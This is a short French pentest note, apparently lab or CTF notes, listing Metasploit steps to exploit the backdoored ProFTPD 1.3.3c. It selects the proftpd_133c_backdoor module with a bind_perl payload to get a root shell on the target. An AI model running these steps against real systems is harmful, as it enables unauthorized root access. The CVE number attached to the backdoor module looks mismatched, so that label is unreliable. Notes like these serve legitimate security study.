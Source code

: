 # FTP

## ProFTPD

### ProFTPD 1.3.3c - CVE-2010-4221.

On y accède via MSFCONSOLE
msfconsole -q

On cherche l'exploit
search ProFTPD 1.3.3c

Puis on choisie la UNIX/FTP/PROFTPD_133c_backdoor

On SET le PAYLOADS avec le cmd/unix/bind_perl
On ajoute le RHOSTS le LPORT

Puis on run l'exploit qui nous passe directement en Root sur la machine